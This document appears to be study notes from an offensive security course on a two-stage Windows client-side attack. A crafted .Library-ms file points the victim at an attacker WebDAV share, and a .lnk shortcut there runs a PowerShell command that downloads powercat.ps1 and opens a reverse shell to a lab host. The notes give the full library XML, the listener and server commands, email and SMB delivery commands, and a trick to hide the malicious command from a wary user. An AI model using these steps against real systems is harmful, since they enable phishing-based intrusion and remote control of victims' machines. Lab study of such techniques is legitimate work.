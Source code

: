 - Virtual containers for user content
- Connects users with data stored in remote locations like web services or shares
- Have a **.Library-ms** file extension and can be executed by double-clicking

### Two-stage client attack
1. Use Windows library files to gain a foothold on the target system and set up the second stage
	1. Create a Windows library file connecting to a _WebDAV_ share we'll set up
	2. Victim receives a **.Library-ms** file, perhaps via email
	3. They double click the file
		- Displays the remote location (our WebDAV folder) as if it were a local directory on the victim's computer
	4. In the WebDAV directory, we'll provide a payload in the form of a **.lnk** shortcut file for the second stage to execute a PowerShell reverse shell
		- The victim *has* to double click on the **.lnk** file
2. Use the foothold to provide an executable file that will start a reverse shell when double-clicked


# Setup WebDAV server

WebDAV is an extension of HTTP (Can also use HTTPS)
- Enables a webserver to behave like a fileserver


- Install *wsgidav* for the WebDAV server
- Make a directory specifically for the server & add a test file
- Start the server where:
	- The server host is listening on all ports
	- The port is 80
	- Authorization to the server is disabled
	- The server root is set to the previously made directory
```bash
# Install
pip3 install wsgidav

# Create dir for server
mkdir /home/kali/webdav
touch /home/kali/webdav/test.txt

# Run server
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

![](WebDAV.png)


# Create Library File
Library files
- Consist of three major parts
	- General Library Information
	- Library Properties
	- Library Locations
- Written in XML to specify the parameters for accessing remote locations
- Refer to the [Library Description Schema](https://docs.microsoft.com/en-us/windows/win32/shell/library-schema-entry) for further information.

- Connect to Windows client
- Use VSC or Notepad to create **config.Library-ms**
	- Once saved, its icon will be updated to something rarely seen/ used, so we'll change it in its code
	  ![](config-library-ms.png)
- Build the XML code
```xml
<?xml version="1.0" encoding="UTF-8"?>

<!--Namespace for the library file's format version (starting Win 7)-->
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">

<!--Name specifies name of the library (DLL name & index)-->
<name>@windows.storage.dll,-34582</name>
<!--Set to numerical value of our choice-->
<version>6</version>

<!--Specifies if library is pinned to Explorer's navigation pane-->
<isLibraryPinned>true</isLibraryPinned>
<!--Determines icon used to display library file-->
<!--imagesres.dll to choose between all Windows icons. index "-1002" for Documents folder icon. "-1003" for Pictures folder icon.-->
<iconReference>imageres.dll,-1003</iconReference>

<!--Determines columns and details that appear in Explorer by default after opening-->
<!--use the Documents GUID to appear as convincing as possible-->
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>

<!--Library locations section-->
<!--Specify storage location where library file should point to-->

<!--Search Connectors specify the connection settings to remote locations-->
<searchConnectorDescriptionList>
<searchConnectorDescription>

<!--Determines behavior of Explorer when a user saves an item. True = Default location & behavior-->
<isDefaultSaveLocation>true</isDefaultSaveLocation>

<!--Used for compatibility-->
<isSupported>false</isSupported>

<!--Point to created WebDAV share over HTTP-->
<simpleLocation>
<url>http://192.168.45.167</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>

</libraryDescription>
```

- Double-click to test
![](config-library-ms-test.png)

- Back in the config file
	- More info is entered in the *url* tag
		- Windows attempt at optimizing the connection info
	- *serialized* tag is created
		- Contains base64-encoded information about the location of the _url_ tag
		- May not be working on other machines or after a restart
			- Can get passed by resetting file each time.

- Once double-clicked, the config file will receive the Mark of the Web tag

# Create Shortcut File
- Rt-click Windows Desktop > New > Shortcut
	- Set location
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.167:8000/powercat.ps1'); powercat -c 192.168.45.167 -p 4444 -e powershell"
```

	\* Note - If we expect that our victims are tech-savvy enough to actually check where the shortcut files are pointing, we can use a handy trick.
	Since our provided command looks very suspicious, we could just put a delimiter and benign command behind it to push the malicious command
	out of the visible area in the file's property menu. If a user were to check the shortcut, they would only see the benign command.

- Name shortcut **automatic_configuration**
	- Can also change Icon via Properties
- Test by creating python server on port 8000 for powercat.ps1 and nc listener to verify .lnk file works

# Attack
## Setup
- Use the created config Library to connect back to the WebDAV server on kali
- Copy/ Paste the **config.Library-ms** (reset *url* tags first) and **automation_configuration.lnk**
- Delivery to victim most likely through email
	- Use the SMB share **\\\\192.168.228.195\\share** to simulate delivery

## Deliver & Exploit
- Setup Python server for powercat.ps1
- Setup WebDAV server for exploit
- Setup nc listener
```bash
# Tab 1
# cd to directory w/ powercat.ps1
python -m http.server 8000

# Tab 2
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/

# Tab 3
nc -nlvp 4444
```

- Upload file to SMB share for simulated user to open
```bash
cd webdav
rm test.txt
smbclient //192.168.228.195/share -c 'put config.Library-ms'
```

- If sending via SMTP
```bash
swaks --to <victim email> --from <abused email> --server 192.168.228.199 --auth-user <abused email> -auth-password <abused pw> --attach /home/kali/webdav/config.Library-ms --header "test" --body "config file for software"
```


- Should have a reverse shell